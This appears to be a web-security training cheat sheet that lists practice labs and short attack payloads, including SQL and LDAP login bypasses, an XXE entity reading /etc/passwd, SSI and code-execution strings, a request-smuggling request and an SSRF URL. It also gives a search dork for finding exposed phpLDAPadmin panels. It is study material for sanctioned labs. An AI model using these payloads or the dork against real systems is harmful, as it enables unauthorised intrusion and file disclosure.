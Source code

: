 # Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php
Defacement : 
<style>
div {
 background-image: url('http://www.deepeddy.net/img/deepeddyfish.gif');
}
</style>

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
&xxe;

# XPATH Injection
Lab : https://bwapp.hakhub.net/xmli_1.php
Payload : ' or id='1

# SSI Injection 
Payload : <!--#exec cmd="OS_COMMAND" -->

# Code Injection
Lab : https://bwapp.hakhub.net/phpi.php
Payload : system("ls")

# Local File Inclusion/ Remote File Inclusion
Lab: https://bwapp.hakhub.net/rlfi.php

# Command Injection
Lab : https://bwapp.hakhub.net/commandi.php

# HTTP Splitting Smuggling
Lab : https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
Payload : 
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

# Host Header Injection
Lab : https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning

# Server-side Template Injection
Lab : https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
Payload : <%= 7*7 %> 

# Server-Side Request Forgery
Lab : https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
Payload : http://localhost/admin
